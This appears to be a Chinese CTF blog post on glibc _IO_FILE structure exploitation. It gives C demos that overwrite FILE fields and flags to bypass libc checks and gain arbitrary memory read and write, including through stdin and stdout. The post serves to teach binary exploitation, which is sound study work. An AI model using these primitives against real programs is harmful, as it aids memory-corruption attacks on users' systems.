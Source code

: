 ```yaml
---
title: Pwn with File结构体（二）
authorId: hac425
tags:
  - file struct
categories:
  - ctf
date: 2017-12-07 21:36:00
---
```

### 前言


---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274/

---

最新版的 `libc` 中会对 `vtable` 检查，所以之前的攻击方式，告一段落。下面介绍一种，通过修改 `_IO_FILE` 实现任意地址读和任意地址写的方式。

### 正文

`_IO_FILE` 通过这些指针，来读写数据。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512654157088d9edyn3q.png?imageslim)
如果我们修改了它们，然后通过一些文件读写函数时，我们就能实现 任意地址读写。

 **任意地址读**
 
 ![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512656021050j3vjc54v.png?imageslim)
 
 代码示例
 ```
 #include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[])
{   
    FILE *fp; 
    char *msg = "hello_file";

    char *buf = malloc(100);
    read(0, buf, 100);
    fp = fopen("key.txt", "rw");

    // 设置 flag 绕过 check
    fp->_flags &= ~8;
    fp->_flags |= 0x800;

    // _IO_write_base write数据的起始地址， _IO_write_ptr  write数据的终止地址
    fp->_IO_write_base = msg;
    fp->_IO_write_ptr = msg + 6;

    //绕过检查
    fp->_IO_read_end = fp->_IO_write_base;

    // write 的目的 文件描述符， 1 --> 标准输出
    fp->_fileno = 1;
    fwrite(buf, 1, 100, fp);

    return 0;
}

 ```
 ![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512656917401bhu6ayhp.png?imageslim)
 
 
  **任意地址写**
  
  ![paste image](http://oy9h5q2k4.bkt.clouddn.com/15126569407780y6n1s1m.png?imageslim)
  
  ```
  #include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[])
{   
    FILE *fp; 
    char msg[100];

    char *buf = malloc(100);
    fp = fopen("key.txt", "rw");

    // 设置 flag 绕过 check
    fp->_flags &= ~4;

    // _IO_buf_base buffer 的起始地址， _IO_buf_end  buffer 的终止地址
    // fread 先把数据读入 [_IO_buf_base, _IO_buf_end] 形成的 buffer
    // 然后复制到目的 buffer
    fp->_IO_buf_base = msg;
    fp->_IO_buf_end = msg + 100;

    // 设置 文件描述符， 0---> stdin, 从标准输入读数据
    fp->_fileno = 0;
    fread(buf, 1, 6, fp);
    
    puts(msg);
    puts(buf);

    return 0;
}

  ```
  ![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512657551566q5ox73ro.png?imageslim)
  
 
 **利用 stdin / stdout 任意地址写/ 读**
 
`puts`, `scanf` 等一批系统函数默认使用的 `stdin` , `stdout` ,`stderr` 等结构体进行操作，通过修改这些结构体的内容，可以更方便的实现任意地址读，任意地址写。
 
 `stdin` 也是 `_IO_FILE` 结构体
 ```
 #include <stdio.h>
#include <stdlib.h>


int global_val = 0xaabbccdd;


int main(int argc, char * argv[])
{   
    FILE *fp; 
    int var;

    fp = stdin;

    fp->_flags &= ~4;

    fp->_IO_buf_base = stdout;
    fp->_IO_buf_end = stdout + 100;


    scanf("%d",&var);
    
    printf("0x%x\n", global_val);

    return 0;
}

 ```
 运行之
 ![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512658393494amnz5255.png?imageslim)
 
 成功修改 `stdout` 结构体
 
 ```
 #include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[])
{   
    FILE *fp; 
    char *msg = "hello_stdout";

    char *buf = malloc(100);

    fp = stdout;

    // 设置 flag 绕过 check
    fp->_flags &= ~8;
    fp->_flags |= 0x800;

    // _IO_write_base write数据的起始地址， _IO_write_ptr  write数据的终止地址
    fp->_IO_write_base = msg;
    fp->_IO_write_ptr = msg + 12;

    //绕过检查
    fp->_IO_read_end = fp->_IO_write_base;

    // write 的目的 文件描述符， 1 --> 标准输出
    fp->_fileno = 1;
    puts("<----->this is append on msg ");

    return 0;
}

 ```
 
 ![paste image](http://oy9h5q2k4.bkt.clouddn.com/15126587803351zrlnl5p.png?imageslim)
 
 成功读到了， `msg` 的内容。
 
 
 参考：
 
 https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique